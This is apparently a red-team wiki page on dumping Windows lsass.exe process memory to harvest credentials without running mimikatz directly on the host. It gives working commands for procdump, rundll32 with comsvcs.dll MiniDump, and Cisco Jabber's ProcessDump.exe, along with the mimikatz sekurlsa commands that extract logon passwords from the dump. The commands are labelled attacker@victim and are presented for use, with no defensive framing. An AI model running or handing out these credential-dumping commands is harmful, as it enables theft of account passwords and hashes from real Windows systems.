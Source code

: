 # Dumping Lsass Without Mimikatz

## MiniDumpWriteDump API

See my notes about writing a simple custom process dumper using `MiniDumpWriteDump` API:

{% content-ref url="dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass.md" %}
[dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass.md](dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass.md)
{% endcontent-ref %}

## Task Manager

Create a minidump of the lsass.exe using task manager (must be running as administrator):

![](../../.gitbook/assets/screenshot-from-2019-03-12-19-55-27.png)

![](../../.gitbook/assets/screenshot-from-2019-03-12-19-56-12.png)

Swtich mimikatz context to the minidump:

{% code title="attacker@mimikatz" %}
```csharp
sekurlsa::minidump C:\Users\ADMINI~1.OFF\AppData\Local\Temp\lsass.DMP
sekurlsa::logonpasswords
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-19-54-15.png)

## Procdump

Procdump from sysinternal's could also be used to dump the process:

{% code title="attacker@victim" %}
```csharp
procdump.exe -accepteula -ma lsass.exe lsass.dmp

// or avoid reading lsass by dumping a cloned lsass process
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-11-28.png)

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-13-25.png)

## comsvcs.dll

Executing a native comsvcs.dll DLL found in Windows\system32 with rundll32:

```
.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```

![](<../../.gitbook/assets/image (165).png>)

## ProcessDump.exe from Cisco Jabber

Sometimes Cisco Jabber (always?) comes with a nice utility called `ProcessDump.exe` that can be found in `c:\program files (x86)\cisco systems\cisco jabber\x64\`. We can use it to dump lsass process memory in Powershell like so:

```
cd c:\program files (x86)\cisco systems\cisco jabber\x64\
processdump.exe (ps lsass).id c:\temp\lsass.dmp
```

![screenshot by @em1rerdogan](<../../.gitbook/assets/image (634).png>)

## References

{% embed url="https://t.co/s2VePo3ICo?amp=1" %}
